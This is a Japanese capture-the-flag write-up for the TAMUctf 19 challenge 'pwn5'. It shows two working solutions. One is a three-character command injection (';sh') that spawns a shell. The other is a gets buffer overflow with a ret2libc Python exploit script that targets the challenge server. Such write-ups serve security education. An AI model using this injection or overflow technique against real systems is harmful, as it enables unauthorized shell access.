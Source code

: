 # [pwn 372pts] pwn5 - TAMUctf 19
32ビットバイナリです。
```
$ checksec pwn5
[*] 'pwn5'
    Arch:       32 bits (little endian)
    NX:         NX enabled
    SSP:        SSP disabled (No canary found)
    RELRO:      Partial RELRO
    PIE:        PIE disabled
```
この問題には非想定解があるので、どちらも解説しようと思います。

IDAで解析すると、pwn4と同じくlsの引数を指定できるサービスです。
しかし、引数として与えられるのは3文字だけになっています。

## 解法1
参加したときは気付かなかったのですが、`;sh`と入力すれば`ls ;sh`となってシェルが奪えます。
だからpwn3よりも点数が低いんでしょうね。

## 解法2
入力にはgetsを使っているのでバッファオーバーフローが存在します。
SSPは無効なので、リターンアドレスを書き換えて`system('/bin/sh')`を実行すれば良さそうです。
PIE無効+static linkなのでsystem関数のアドレスは固定で、`/bin/sh`という文字列もバイナリ中に存在します。
もしdynamic linkの場合はputs@pltでputs@gotとかをリークしてもう一度mainに飛ばし、2周目でret2libcすればOKです。

```python
from ptrlib import *

elf = ELF("./pwn5")

sock = Socket("pwn.tamuctf.com", 4325)
#sock = Process("./pwn5")
sock.recvuntil("ls:")

payload = b'A' * 0x11
payload += p32(elf.symbol("system"))
payload += b'A' * 4
payload += p32(0x08048000 + next(elf.find("/bin/sh")))
print(repr(payload))
sock.sendline(payload)

sock.interactive()
```
こんな感じで解けます。

# 感想
基本的なret2libcの問題ですね。

